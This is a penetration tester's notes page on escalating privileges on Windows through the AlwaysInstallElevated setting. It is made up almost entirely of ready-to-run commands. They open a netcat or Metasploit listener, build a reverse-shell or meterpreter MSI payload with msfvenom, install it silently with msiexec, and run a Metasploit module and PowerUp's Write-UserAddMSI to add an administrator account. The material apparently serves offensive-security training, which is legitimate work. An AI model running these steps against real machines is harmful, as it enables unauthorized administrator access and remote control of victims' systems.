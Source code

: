 -- -
[[Dark Arts/Privesc/Windows/Enumeration/AlwaysInstallElevated|Enum]]
### CLI
#### Setup listener
on attack box
```bash
# for regular reverse shell
nc -nvlp 9001

# for meterpreter shell
msfconsole
use multi/handler
set lhost 10.10.10.14
set lport 9001
run
```
#### Generate malware
```bash
msfvenom -p windows/meterpreter/reverse_tcp lhost=10.10.10.14 lport=9001 -f msi -o setup.msi
msfvenom -p windows/x64/reverse_tcp lhost=10.10.10.14 lport 9001 -f msi -o setup.msi
```
#### Exploit
[[Windows|File transfer]] the file over to the target
```powershell
msiexec /quiet /qn /i <path to malicious msi>.msi
msiexec /quiet /qn /i C:\Temp\setup.msi

# check user was added to administrators group
net localgroup administrators
```
#### metasploit
If you have a meterpreter session or a shell via metasploit, you can use this module to do exploit this vector as well.
```bash
# on meterpreter/shell session, background it
bg
background
ctrl+z

# load module
use /exploit/windows/local/always_install_elevated
set session <sess num>
set session 1

# exploit
run
```
### GUI
#### Exploit w/ PowerUp.ps1
You will need to [[Windows|file transfer]] it to target.
```powershell
# if you haven't already, load in PowerUp
. .\PowerUp.ps1

# Exploit
# Given output like:
# [*] Checking for AlwaysInstallElevated registry key...
# AbuseeFunction : Write-UserAddMSI

# it's telling you that AlwaysInstallElevated registry key is set to one and that you can abuse it using the PowerUp function Write-UserAddMSI
Write-UserAddMSI

# it will then output an MSI called UserAdd
# with GUI access, double click on it and set a username, password, and group you want to be added to, which generally would be "Administrators".
# check if the new user was successfully added
net localgroup administators

# you should see your new user in the group now
# now log in as that user
```